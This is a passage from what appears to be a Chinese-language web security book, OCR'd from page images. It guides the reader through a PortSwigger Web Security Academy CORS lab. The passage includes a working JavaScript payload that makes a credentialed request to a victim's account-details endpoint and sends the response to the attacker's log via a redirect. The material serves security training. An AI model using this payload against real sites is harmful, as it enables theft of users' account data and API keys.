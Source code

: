 图 9.17 – 显示来源的响应头

1.  在浏览器顶部的实验中，点击 **Go to exploit server** 并输入以下有效负载 HTML 脚本。确保将 **<random-string>** 替换为首次启动实验时生成的唯一实验 URL：

    ```
     <script>
    ```

    ```
     var req = new XMLHttpRequest();
    ```

    ```
     req.onload = reqListener;
    ```

    ```
     req.open('get','https://<random-string>.web-security-academy.net/accountDetails',true);
    ```

    ```
     req.withCredentials = true;
    ```

    ```
     req.send();
    ```

    ```
     function reqListener() {
    ```

    ```
     location='/log?key='+this.responseText;
    ```

    ```
     };
    ```

    ```
     </script>
    ```

在 *图 9.18* 中，我们看到实验室头部，显示了 **Go to exploit server** 按钮和 **Submit solution** 按钮，用于解决实验：

![图 9.18 – 链接到漏洞利用服务器](img/Figure_9.18_B18829.jpg)

图 9.18 – 链接到漏洞利用服务器
